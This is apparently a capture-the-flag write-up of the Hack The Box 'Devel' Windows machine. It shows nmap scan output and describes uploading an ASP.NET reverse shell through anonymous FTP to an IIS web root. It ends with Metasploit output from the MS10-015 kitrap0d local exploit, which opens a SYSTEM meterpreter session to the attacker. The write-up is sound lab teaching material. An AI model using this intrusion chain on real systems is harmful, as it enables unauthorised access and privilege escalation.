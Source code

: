 ```yaml
---
layout: post
title: Devel
date: 2020-03-30
author: th3-3inst3in
comments: true
categories: htb
tags: [Windows,htb]
---
```


## Devel writeup

Easy Windows machine

![main]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/main.png)


Let's do a quick nmap all ports

```perl

Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 09:54 EDT
Nmap scan report for 10.10.10.5
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds

```

<br>

### Enumeration

- Found that ftp anonymous login was allowed and using that I could upload files on to the IIS server web directory which in simpler words mean a shell.
- I used the InsomniaShell shell which can be found here `https://www.darknet.org.uk/2014/12/insomniashell-asp-net-reverse-shell-bind-shell/`


![user shell]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/ushell.png)

I upgraded the normal shell to meterpreter and used local exploit usggester to see if I can priv esec.



![local_exploit_suggester]({{ site.giturl }}/MyCtfWriteups/assets/images/htb/Devel/exploitsuggest.png)



### Exploitation

Used the ms10-015 exploit and got Nt authority

```perl

msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.3:555 
[*] Launching notepad to host the exploit...
[+] Process 3444 launched.
[*] Reflectively injecting the exploit DLL into 3444...
[*] Injecting exploit into 3444 ...
[*] Exploit injected. Injecting payload into 3444...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (180291 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.14.3:555 -> 10.10.10.5:49159) at 2020-03-30 14:05:32 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 


```
